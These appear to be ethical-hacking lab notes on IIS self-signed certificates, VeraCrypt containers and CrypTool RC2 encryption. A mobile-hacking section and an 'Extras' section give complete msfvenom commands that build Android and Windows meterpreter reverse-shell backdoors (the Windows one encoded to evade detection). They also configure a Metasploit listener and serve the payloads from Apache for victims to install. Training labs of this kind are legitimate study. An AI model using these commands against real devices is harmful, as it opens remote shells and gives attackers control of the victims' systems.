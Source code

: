 BCTEXTENCODER
Simple GUI based. Enter text and encode it using password.

CREATING SELF-SIGNED CERTIFICATE
•	Open inetmgr
•	Click machine name and select Server Certificates
•	From actions select Create Self signed Certificate
•	Choose Name and Personal.
•	Go to a Site, choose Bindings from the Action pane.
•	Select Add.
•	Select Https, IP 10.10.10.16, hostname www.goodshopping.com, select the certificate.
•	Go the site and right click refresh one time.

VERACRYPT - DISK ENCRYPTION
Create Encrypted containers which can be mounted as Virtual Disks.
Creation
Create Volume  Create an Encrypted File Container  Standard VeraCrypt volume  Volume Location (Path to save the container)  Encryption AES Hash SHA-512  Size of Volume  Enter Password  Generate mouse randomness  Format Exit
Mount Volume
Select Drive Letter  Select File  Mount  Enter Password  Disk shown in Explorer

CrypTool – Data Encryption
File  New  Enter Text  Encrypt/Decrypt  Symmetric (Modern)  RC2  KEY 05  Encrypt
File  Open  Encrypt/Decrypt  Symmetric (Modern)  RC2  KEY 05  Decrypt


HACKING MOBILE PLATFORMS
Generating and Executing Payloads for Android
Setup Android
•	Open terminal, run su
•	Run ip addr add 10.10.10.69/24 dev eth0
Generate Payload
•	msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.10.11 R > Desktop/Backdoor.apk | R raw
•	Host the payload and run a listener on Kali
•	Type use exploit/multi/handler.
•	Type set payload android/meterpreter/reverse_tcp.
•	Type set LHOST 10.10.10.11.
•	Start listener, type exploit -j -z
•	Browse link of file to start meterpreter session.
Exploit Execute
•	Open kali hosted link. Download APK using es file downloader. Install and run.


Extras

Metasploit – Firewall Bypass
•	Turn on firewall on victim machine
Payload Setup
•	msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.10.11 -f exe > Desktop/Exploit.exe | -e encoder, -b list of bad characters to avoid
•	Type mkdir /var/www/html/share | make directory
•	Type chmod -R 755 /var/www/html/share | change rights recursively to all files and folders inside
•	Type chown -R www-data:www-data /var/www/html/share | change owner recursively  owner:group
•	mv /root/Desktop/Test.exe /var/www/html/share | move to exploit
•	service apache2 start
